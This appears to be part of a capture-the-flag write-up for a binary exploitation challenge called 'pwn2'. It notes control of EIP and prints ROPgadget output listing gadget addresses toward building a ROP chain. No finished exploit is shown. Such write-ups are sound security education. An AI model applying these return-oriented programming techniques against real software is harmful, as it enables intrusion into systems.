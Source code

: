 Quite easy for the moment. The tricky part of the challenge is write a nice ROPchain. 
When we get control of EIP registers are (note that EAX and ECX depends on the length of our buffer, but for our solution it dosn't matter)
![Registers](registers.png)

`ROPgadget`, please give us good news!
```bash
$ ROPgadget --binary pwn2
Gadgets information
============================================================
0x08048833 : adc al, 0x41 ; ret
0x08048430 : add al, 0x24 ; sub al, 0xa0 ; add al, 8 ; call eax
0x0804846d : add al, 0x24 ; sub al, 0xa0 ; add al, 8 ; call edx
0x0804846b : add al, 0xc7 ; add al, 0x24 ; sub al, 0xa0 ; add al, 8 ; call edx
0x08048498 : add al, 8 ; add ecx, ecx ; ret
0x08048434 : add al, 8 ; call eax
0x08048471 : add al, 8 ; call edx
0x08048418 : add al, 8 ; cmp eax, 6 ; ja 0x8048427 ; ret
0x080484d1 : add bl, 0x40 ; ret
0x08048358 : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x0804852b : add byte ptr [eax], al ; leave ; ret
0x08048830 : add cl, byte ptr [eax + 0xe] ; adc al, 0x41 ; ret
0x0804852c : add cl, cl ; ret
0x080484f7 : add dword ptr [ecx + 0x558bf455], ecx ; or byte ptr [ecx], al ; ret 0xb60f
0x0804882c : add eax, 0x2300e4e ; dec eax ; push cs ; adc al, 0x41 ; ret
0x08048495 : add eax, 0x804a044 ; add ecx, ecx ; ret
0x080485f7 : add eax, 0x81fffffe ; ret
0x08048528 : add eax, edx ; mov byte ptr [eax], 0 ; leave ; ret
0x08048452 : add eax, edx ; sar eax, 1 ; jne 0x804845f ; ret
0x0804849a : add ecx, ecx ; ret
0x08048649 : add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804835a : add esp, 8 ; pop ebx ; ret
0x080484ba : and al, 0x10 ; lahf ; add al, 8 ; call eax
0x08048431 : and al, 0x2c ; mov al, byte ptr [0xd0ff0804] ; leave ; ret
0x0804846e : and al, 0x2c ; mov al, byte ptr [0xd2ff0804] ; leave ; ret
0x0804846a : and al, 4 ; mov dword ptr [esp], 0x804a02c ; call edx
0x08048340 : call 0x8048406
0x08048793 : call dword ptr [esi]
0x08048436 : call eax
0x08048473 : call edx
0x08048455 : clc ; jne 0x804845c ; ret
0x0804841b : clc ; push es ; ja 0x8048424 ; ret
0x0804841a : cmp eax, 6 ; ja 0x8048425 ; ret
0x08048831 : dec eax ; push cs ; adc al, 0x41 ; ret
0x080485ed : dec ecx ; ret
0x0804882d : dec esi ; push cs ; xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret
0x08048648 : fild word ptr [ebx + 0x5e5b1cc4] ; pop edi ; pop ebp ; ret
0x0804833e : in al, dx ; or al, ch ; mov ebx, 0x81000000 ; ret
0x0804842d : in al, dx ; sbb bh, al ; add al, 0x24 ; sub al, 0xa0 ; add al, 8 ; call eax
0x080484cf : in eax, -0x33 ; add bl, 0x40 ; ret
0x080484d3 : inc eax ; ret
0x080484df : inc ebp ; ret
0x080484d5 : inc ebx ; ret
0x080484d7 : inc ecx ; ret
0x080484dd : inc edi ; ret
0x080484d9 : inc edx ; ret
```